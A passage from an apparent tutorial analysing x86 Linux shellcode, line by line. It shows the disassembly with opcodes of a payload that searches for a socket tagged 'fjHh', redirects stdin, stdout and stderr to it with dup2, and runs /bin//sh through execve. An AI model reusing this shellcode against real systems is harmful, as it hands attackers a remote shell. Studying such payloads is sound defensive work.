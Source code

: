 
```nasm
                            ; pointer to the buffer storing data received with recv()
                            ; check if the first bytes are the string "fjHh
00000018  813E666A4868      cmp dword [esi],0x68486a66
0000001E  75F0              jnz 0x10
```

{% sidenote If the first 4 bytes of the buffer of `recv()` aren't equal to the string `fjHh`, `recv()` is called with a file descriptor that **keeps increasing**  %}

```nasm
                            ; save the file descriptor of the socket into EDI and EBX
00000020  5F                pop edi
00000021  89FB              mov ebx,edi

                            ; set ECX ot 0x00000002
00000023  6A02              push byte +0x2
00000025  59                pop ecx

                            ; call dup2() syscall
00000026  6A3F              push byte +0x3f
00000028  58                pop eax
00000029  CD80              int 0x80

                            ; decrease ECX by 1 and jump to the address 00000026
0000002B  49                dec ecx
0000002C  79F8              jns 0x26
```

{% sidenote The last two instructions loop three times, from ECX=2 to ECX=0, in order to redirect respectively `stderr`, `stdout`, and `stdin` to the file descriptor of the socket %}

```nasm
                            ; set EAX to 0x0000000b
0000002E  6A0B              push byte +0xb
00000030  58                pop eax

                            ; 3rd argument of execve(): array of pointer to env. vars.
                            ; set EDX to 0 and push this value to the stack
                            ; it also acts as the string terminator of /bin//sh
00000031  99                cdq
00000032  52                push edx

                            ; push the following string to the stack: /bin//sh
00000033  682F2F7368        push dword 0x68732f2f
00000038  682F62696E        push dword 0x6e69622f

                            ; save the pointer to /bin//sh into EBX
0000003D  89E3              mov ebx,esp

                            ; push 0x00000000 to the stack
0000003F  52                push edx

                            ; 1st argument of execve(): path of the executable to run
                            ;   in this case: /bin//sh
00000040  53                push ebx

                            ; 2nd argument of execve():
                            ;   array of pointers to strings passed
                            ;   as the command-line arguments of /bin//sh
00000041  89E1              mov ecx,esp

                            ; call syscall 0xb (11): execve()
00000043  CD80              int 0x80
```
